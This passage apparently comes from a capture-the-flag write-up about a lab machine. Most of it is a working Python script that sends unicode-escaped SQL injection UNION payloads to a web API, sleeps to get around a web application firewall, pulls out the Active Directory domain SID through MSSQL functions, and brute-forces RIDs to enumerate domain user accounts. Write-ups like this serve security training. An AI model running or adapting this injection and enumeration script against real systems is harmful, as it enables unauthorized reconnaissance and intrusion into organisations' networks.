 
Results in:

![image-20200331065317670](https://0xdfimages.gitlab.io/img/image-20200331065317670.png)

It worked!

#### Script Brute Force

I’ll need a script to brute force across the possible SIDs that could be in
use by users. What I came up with was this:

    
    
    #!/usr/bin/env python3
    
    import binascii
    import requests
    import struct
    import sys
    import time
    
    
    payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""
    
    
    def unicode_escape(s):
        return "".join([r"\u{:04x}".format(ord(c)) for c in s])
    
    
    def issue_query(sql):
        while True:
            resp = requests.post(
                "http://10.10.10.179/api/getColleagues",
                data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
                headers={"Content-type": "text/json; charset=utf-8"},
                proxies={"http": "http://127.0.0.1:8080"},
            )
            if resp.status_code != 403:
                break
            sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
            time.sleep(30)
        return resp.json()[0]["email"]
    
    
    print("[*] Finding domain")
    domain = issue_query("DEFAULT_DOMAIN()")
    print(f"[+] Found domain: {domain}")
    
    print("[*] Finding Domain SID")
    sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
    print(f"[+] Found SID for {domain} domain: {sid}")
    
    for i in range(500, 10500):
        sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
        num = binascii.hexlify(struct.pack("<I", i)).decode()
        acct = issue_query(f"SUSER_SNAME({sid}{num})")
        if acct:
            print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
        time.sleep(1)
    